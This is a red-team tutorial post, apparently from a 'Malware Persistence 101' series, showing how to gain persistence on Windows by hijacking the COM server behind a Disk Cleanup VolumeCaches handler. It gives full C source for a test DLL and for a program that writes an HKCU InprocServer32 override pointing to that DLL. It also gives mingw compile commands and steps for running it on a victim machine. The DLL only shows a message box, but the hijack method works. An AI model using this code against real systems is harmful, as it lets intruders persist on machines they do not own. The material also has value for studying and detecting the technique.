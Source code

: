 # 05 persistence - disk cleanup utility

If you have ever had an issue with limited hard disk space, you are certainly familiar with the Disk Cleanup utility:    

![img](./img/2022-11-18_08-06.png)   

Good news for red teamers, the *"Files to delete"* list displayed in the user interface is not random. Just run command:    

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

![img](./img/2022-11-18_04-44.png)       

As you can see, there are even default values ​​of registry keys here.    

Also, if we have `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches\default=<CLSID>`, we can find another registry key value: `HKCR\CLSID\<CLSID>\InProcServer32 = <DLLPATH>`:       

![img](./img/2024-05-06_19-46.png)    

![img](./img/2024-05-06_19-51.png)    

![img](./img/2024-05-06_19-52.png)    

This suggests, that we can use [COM DLL hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) for persistence. Let's try.    

First of all, as usually, create "evil" DLL (`hack.c`):      

```cpp
/*
 * Malware Persistence 101
 * hack.c
 * "Hello, Prishtina!" messagebox
 * author: @cocomelonc
*/
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Hello, Prishtina!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

And then create persistence script (`pers.c`):      

```cpp
/*
 * Malware Persistence 101
 * pers.c
 * windows persistence via Disk Cleaner
 * author: @cocomelonc
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = "Software\\Classes\\CLSID\\{8369AB20-56C9-11D0-94E8-00AA0059CE02}\\InprocServer32";

  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey value :(\n");
    return -1;
  }
  return 0;
}
```

As CLSID I took `8369AB20-56C9-11D0-94E8-00AA0059CE02`. As you can see code is similar to [COM hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) post. The difference is only in the values of the variables.   

Compiling:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

![img](./img/2024-05-06_20-06.png)    

And compile persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-06_20-08.png)   

Copy to victim's machine. In my case `Windows 10 x64`. Run:     

```powershell
.\pers.exe
reg query "HKCU\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8-00AA0059CE02}" /s
```

![img](./img/2024-05-06_20-14.png)    

![img](./img/2024-05-06_20-14_1.png)

As you can see, everything is worked perfectly! =^..^=     